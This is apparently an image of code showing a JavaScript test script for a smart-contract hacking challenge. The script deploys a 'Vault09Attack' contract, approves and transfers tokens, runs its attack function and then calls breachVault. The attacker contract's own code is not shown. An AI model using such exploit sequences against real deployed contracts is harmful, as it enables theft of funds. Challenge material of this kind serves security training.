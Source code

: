 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Deploy the attacker contract from the player's account.
attackVault = await ethers.deployContract("Vault09Attack", [vault.target], player);
await attackVault.waitForDeployment();

console.log("Exploit contract deployed at:", attackVault.target);

// Player approves the exploit contract to spend any 2 tokens
await vault.connect(player).approve(attackVault.target, 2);

// Player transfers 1 token to the attack contract
await vault.connect(player).transferFrom(playerAddress, attackVault.target, 1);

// Execute the attack
const tx = await attackVault.attack();
await tx.wait();

// Break the vault
await vault.connect(player).breachVault();
\end{verbatim}
\end{minipage}
\end{document}
